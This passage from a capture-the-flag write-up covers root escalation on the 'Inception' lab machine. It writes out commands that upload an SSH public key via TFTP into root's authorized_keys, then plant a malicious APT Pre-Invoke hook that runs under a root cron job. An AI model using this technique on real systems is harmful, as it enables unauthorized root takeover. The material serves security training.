    30 23	* * *	root	apt upgrade -y 2>&1 >/dev/null
    

Looking at what we have here, we see that every 5 minutes apt update is running. What's important here is that we are able to run commands everytime apt-update runs by placing our file inside /etc/apt/apt.conf.d/
    
    
      root@Inception:~# ssh-keygen
    Generating public/private rsa key pair.
    Enter file in which to save the key (/root/.ssh/id_rsa):
    Created directory '/root/.ssh'.
    Enter passphrase (empty for no passphrase):
    Enter same passphrase again:
    Your identification has been saved in /root/.ssh/id_rsa.
    Your public key has been saved in /root/.ssh/id_rsa.pub.
    The key fingerprint is:
    SHA256:Qm6bKYD4Jeq/STACtAJFV4D/PdwvPV6owjoUtFA5uT8 root@Inception
    The key's randomart image is:
    +---[RSA 2048]----+
    |.+o.o+oo         |
    |o o.. =          |
    |o. . o.+         |
    |+.  .o+          |
    |+oo ..+=S.       |
    |.oo+ .o=E .  .   |
    |. ....+. o o. .  |
    |. . ... o ..+.   |
    | ..+. .o ..o..   |
    +----[SHA256]-----+
    
    

So first we generate a ssh key inside 10.10.10.67 to then put it into 192.168.0.1's /root/.ssh/authorized_keys 
    
    
      root@Inception:~# ftp 192.168.0.1
      Connected to 192.168.0.1.
      220 (vsFTPd 3.0.3)
      Name (192.168.0.1:cobb): anonymous
      331 Please specify the password.
      Password:
      230 Login successful.
      Remote system type is UNIX.
      Using binary mode to transfer files.
      ftp> put /root/.ssh/id_rsa.pub /root/.ssh/authorized_keys
      local: /root/.ssh/id_rsa.pub remote: /root/.ssh/authorized_keys
      200 PORT command successful. Consider using PASV.
      550 Permission denied.
      ftp> exit
      221 Goodbye.
    

Didn't work, that's because we need to use tftp instead of ftp: 
    
    
      root@Inception:~# tftp 192.168.0.1
      tftp> put /root/.ssh/id_rsa.pub /root/.ssh/authorized_keys
      Sent 397 bytes in 0.0 seconds
      tftp> exit
      ?Invalid command
      tftp> quit
      

Now that's done we need to get 192.168.0.1 to change our ssh public key with the correct permissions, we'll get this done by getting APT to execute our command as we planned earlier : 
    
    
    
      root@Inception:~# echo 'APT::Update::Pre-Invoke {"chmod 600 /root/.ssh/authorized_keys"};' > 00command
      root@Inception:~# tftp 192.168.0.1
      tftp> put 00command /etc/apt/apt.conf.d/00command
      Sent 67 bytes in 0.0 seconds
      tftp> quit
    
    

once that's done we wait 5 minutes and then ssh in as the root user : 
    
    
      root@Inception:~# ssh root@192.168.0.1
    Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-101-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    0 packages can be updated.
    0 updates are security updates.
    
    
    Last login: Thu Nov 30 20:04:21 2017
    root@Inception:~# cat /root/root.txt
    8dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

